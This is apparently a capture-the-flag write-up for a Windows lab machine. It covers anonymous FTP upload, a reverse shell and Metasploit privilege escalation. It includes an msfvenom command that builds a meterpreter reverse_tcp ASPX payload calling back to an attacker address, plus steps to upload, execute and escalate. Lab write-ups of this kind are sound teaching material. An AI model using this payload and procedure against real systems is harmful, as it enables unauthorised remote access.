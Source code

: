 ## Foothold

1. Run initial port scan, we get two ports openn : 21 and 80.
2. We can see from nmap banner that there is anonymous login allowed in ftp.
3. Visiting the website and running gobuster we don't find any directories within the website, but we can see that the files present in the FTP can be accessed by us. Thus we can upload a reverse shell.
4. msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.20 LPORT=9000 -f aspx > revshell.aspx
5. Upload this file to ftp and running a meterpreter listening session.
6. Execute the payload, we get a shell.

## Priv Esc

7. We can see under c:\Users\babis\Desktop there is a user.txt.txt, but access denied.
8. One of the advantages of using metasploit is the post exploit analysis. We can use local_exploit_suggester module through the session created.
9. We get 9 exploit matches, we can test them one by one and see that one would match.
10. Cat out the user.txt.txt and the root.txt
 
